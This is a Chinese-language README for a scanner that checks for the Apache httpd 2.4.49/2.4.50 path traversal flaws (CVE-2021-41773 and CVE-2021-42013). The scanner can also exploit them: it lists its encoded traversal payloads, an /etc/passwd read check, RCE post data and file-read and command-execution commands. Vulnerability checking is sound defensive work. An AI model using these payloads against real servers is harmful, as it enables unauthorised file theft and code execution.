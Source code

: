 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，比如配置了<Directory />Require all granted</Directory> 默认不允许）或命令执行（rce需开启cgi，默认并不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/blob/master/demo/apache-httpd-path-traversal-checker-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选公共目录，rce的shell，以提供灵活性。

采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。
//payload要根据目标的apache路径层数变化跳出，一般4层够了。
//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x02 TODO

1.可能会增加对windows系统的检测。
2.可能会增加反弹shell等进一步利用。



## 0x03 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)